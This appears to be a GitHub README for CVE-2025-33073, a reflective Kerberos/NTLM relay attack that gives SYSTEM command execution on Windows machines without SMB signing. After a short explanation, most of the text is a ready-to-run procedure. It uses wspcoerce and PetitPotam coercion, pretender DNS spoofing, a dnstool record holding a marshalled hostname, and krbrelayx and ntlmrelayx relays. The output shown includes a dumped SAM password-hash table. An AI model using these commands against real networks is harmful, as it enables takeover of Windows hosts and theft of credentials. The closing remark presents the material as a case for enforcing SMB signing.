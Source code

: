 ## CVE-2025-33073

An authenticated remote command execution as SYSTEM on any machine which does not enforce SMB signing.

<p align="center">
  <img src="img/ReflectiveKerberosRelayAttack.webp" />
</p>

Authentication Coercion:

The attack begins with authentication coercion. This is a well-known technique that allows low-privileged accounts to connect a Windows host via DCERPC and coerce it to connect and authenticate to the attack system with its computer account. We have described the theory behind this technique as well as the currently available techniques in our previous blog post: The Ultimate Guide to Windows Coercion Techniques in 2025. It is very important to understand the limitations of the coercion techniques, because these limitation dictate which hosts end up being vulnerable for the Reflective Kerberos Relay Attack in practice.

Decoupling of Coercion Target and Service Principal Name:

Coercing Kerberos authentication is not as easy as it sounds. If we coerce a connection to the attack system, Kerberos is only used when the attack system has its own Service Principle Name, and in this case, the ticket would be rejected if we relay it back. This is where the CredUnmarshalTargetInfo/CREDENTIAL_TARGET_INFORMATIONW trick comes into play, which was pioneered by James Forshaw from Google Project Zero. This allows us to register a hostname pointing to the attack system that causes Kerberos Tickets to be issued for an entirely different host. Using this technique, we are able to receive a Kerberos ticket intended for the same host it originated from.

Bypassing NTLM Prioritisation:

Due to the aforementioned trick, Windows seems to think it is connecting to itself and in this case, NTLM is actually prioritised over Kerberos. Therefore, we needed to modify krbrelayx to advertise that it is not capable of NTLM at all to force Kerberos authentication. You can find the diff in our paper.

Methods:

```sh
wspcoerce 'lab.redteam/user1:KojbyRyibdinWom)@client1.lab.redteam' \
    file:////client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/path
```

```sh
sudo pretender -i eth1 --no-dhcp-dns --no-timestamps \
    --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*'
```

```sh
krbrelayx.py --target smb://client1.lab.redteam -c whoami
```

##

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

```sh
Help: -u <user> -p <password> -d <domain> <dc-ip> <target-ip>
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL 192.168.77.4 SERVER1.SHADOW.LOCAL
```

```sh
ntlmrelayx.py -t SHADOW.LOCAL -smb2support
```

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

##

```sh
dnstool.py -u 'SHADOW.LOCAL\tyr' -p loki 192.168.77.10 -a add -r server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.77.4
[-] Adding new record
[+] LDAP operation completed successfully
```

```sh
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SERVER1.SHADOW.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

```sh
ntlmrelayx.py -t SERVER1.SHADOW.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.77.12, attacking target smb://SERVER1.SHADOW.LOCAL
[*] Authenticating against smb://SERVER1.SHADOW.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.12
```

CVE-2025-33073 is a good example on why enabling defense-in-depth mitigations such as SMB signing can prove extremely efficient, even against 0-days.
